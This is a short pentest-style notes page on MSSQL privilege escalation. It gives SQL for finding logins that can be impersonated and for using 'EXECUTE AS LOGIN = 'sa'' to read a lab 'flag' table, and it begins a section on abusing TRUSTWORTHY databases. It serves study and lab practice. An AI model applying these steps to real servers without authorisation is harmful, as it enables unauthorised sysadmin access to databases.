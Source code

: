 ```yaml
---
description: MSSQL Privilege Escalation
---
```


# MSSQL Attacks

`privilege escalation` in `MSSQL Server`,  where the goal is to get a login with the server-level [sysadmin](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles?view=sql-server-ver16) role, like the `sa` login which is disabeld by default.

### <mark style="color:yellow;">Impersonating Logins</mark>

MSSQL has a statement EXECUTE AS which allows to execute commands of a session to another login or user, like impersonation.&#x20;

Check which logins are allowed to impersonate.

```sql
SELECT name FROM sys.server_permissions
JOIN sys.server_principals
ON grantor_principal_id = principal_id
WHERE permission_name = 'IMPERSONATE';

# oneliner
SELECT name FROM sys.server_permissions JOIN sys.server_principals ON grantor_principal_id = principal_id WHERE permission_name = 'IMPERSONATE';
```

Impersonate SA login

```sql
# Impersonate
EXECUTE AS LOGIN = 'sa';

# Use database
use priv_esc;

# Show tables
SELECT name FROM sys.tables;

# Select column
SELECT * FROM flag;
```

### <mark style="color:yellow;">Abusing Trustworthy Databases</mark>

{% hint style="info" %}
MSSQL Server `databases` have a property called [TRUSTWORTHY](https://learn.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property?view=sql-server-ver16). Sysadmins can enable this and then assign the server-level `sysadmin` role to arbitrary `logins`.
{% endhint %}
